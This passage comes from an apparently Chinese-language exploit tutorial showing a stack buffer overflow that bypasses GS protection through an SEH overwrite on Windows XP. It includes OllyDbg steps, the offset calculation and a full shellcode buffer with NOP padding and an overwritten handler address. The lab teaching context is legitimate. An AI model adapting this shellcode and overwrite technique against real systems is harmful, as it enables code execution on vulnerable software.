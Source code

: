 ```
	return 0;
}
```

项目->属性, 选择release版本, 禁用优化

运行*.exe, OllyDbg自动附加调试
![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x009-001.png)

View->SEH chain, 查看最近的S.E.H结构
![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x009-002.png)

定位到S.E.H Handler的栈地址0x0012ffb4
![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x009-003.png)

再看看输入数据的起始栈地址0x0012fea0, 0x0012ffb4-0x0012fea0=276 byte
![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x009-004.png)

组织280 byte的shellcode, 最后277~280 byte覆盖为shellcode的入口地址
```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90"
"\xa0\xfe\x12\x00"
```

pwn~
![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x009-005.png)


## 0x010 从堆中绕过SafeS.E.H

>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
